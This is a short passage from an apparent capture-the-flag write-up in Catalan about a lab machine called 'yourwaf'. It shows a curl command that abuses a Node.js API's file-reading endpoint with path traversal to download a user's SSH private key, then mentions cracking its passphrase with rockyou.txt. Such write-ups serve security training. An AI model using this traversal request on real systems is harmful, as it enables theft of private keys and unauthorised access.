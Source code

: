 Utilitzant les dades obtingudes de la programació de l'API en node.js, intentem obtenir les banderes però no ho aconseguim. No obstant això, aconseguim obtenir l’id_rsa de tester:

`curl -o id_rsa 'http://www.yourwaf.nyx:3000/readfile?api-token=8c2b6a304191b8e2d81aaa5d1131d83d&file=../../home/tester/.ssh/id_rsa'`

Obtenim l’id_rsa de tester:

![img_p10_1](../../../assets/images/yourwaf/img_p10_1.png)

Intentem utilitzar l’id_rsa per iniciar sessió via ssh amb l’usuari tester, però està protegit amb una contrasenya. Intentem crackejar-la amb rockyou.txt.

![img_p10_3](../../../assets/images/yourwaf/img_p10_3.png)
